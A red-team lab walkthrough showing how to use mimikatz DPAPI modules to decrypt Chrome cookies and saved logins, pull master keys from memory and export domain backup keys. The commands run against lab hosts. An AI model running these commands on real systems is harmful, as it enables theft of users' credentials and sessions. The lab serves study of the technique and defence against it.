



# Reading DPAPI Encrypted Secrets with Mimikatz

This lab is based on the article posted by harmj0y [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/) and the aim is get a bit more familiar with DPAPI and its implementations in mimikatz.l

## Overview

* DPAPI stands for Data Protection API.
* DPAPI is contains 2 functions for encrypting \(`CryptProtectData`\) and decrypting \(`CryptUnprotectData`\) data.
* Created to help developers that know little about cryptography make their programs better at securing users' data.
* Encrypts secrets like wifi passwords, vpn, IE, Chrome, RDP, etc.
* Transparent to end users - programs \(i.e Chrome use the two APIs\) with user's master key which is based on the user's actual logon password.

## Reading Chrome Cookies and Login Data

If you have compromised as system and run under a particular user's context, you can decrypt their DPAPI secrets without knowing their logon password easily with mimikatz.

In this case - let's check user's google chrome cookies:



```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```





Or any saved credentials:



```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```




## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user \(unless a bad admin comes by - more on this later\):

```csharp
dpapi::protect /data:"spotless"
```


I copy pasted the blob into a new file in HxD and saved it to spotless.bin on my desktop. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```



## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI masterkey.

Let's try reading user's `spotless` chrome secrets while running as a local admin on the compromised system:



```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```




If you run as a privileged user, you can try looking for the master key in memory:



```text
sekurlsa::dpapi
```



We see there is the master key for spotless!


Let's now use the masterkey found earlier to decrypt those chrome secrets:



```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```




If the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, password and master key GUIDs are known:



```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```




## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract backup keys that enable us to decrypt any user's master key and then decrypt user secrets.

While running as a domain admin, let's dump the backup keys:



```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```





Using the retrieved backup key, let's decrypt user's spotless master key:



```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```




We can now decrypt user's spotless chrome secrets using the decrypted master key:



```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```




## References




